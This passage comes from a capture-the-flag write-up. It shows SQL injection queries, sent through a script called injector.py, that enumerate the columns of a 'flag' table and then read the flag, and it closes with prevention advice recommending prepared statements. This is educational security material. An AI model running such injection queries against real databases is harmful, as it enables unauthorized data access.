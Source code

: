 The table `flag` sounds very interesting. Let's find out which columns exist in this table:

```bash
$ python injector.py -q "SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='flag'"
flag
```

All we need to do now is to query for the flag:

```bash
$ python injector.py -q "SELECT flag FROM flag"                                                   
flag{REDACTED}
```

## Prevention:

As we can see, the proposed "solution" to secure the login is ineffective. Limiting the allowed inputs on the client's side never achieves anything. 

The best way to go are prepared statements. See [my advisory from the previous challenge](https://github.com/pkemkes/ctf-writeups/tree/main/squarectf2022/alex-hanlon-has-the-flag#prevention).
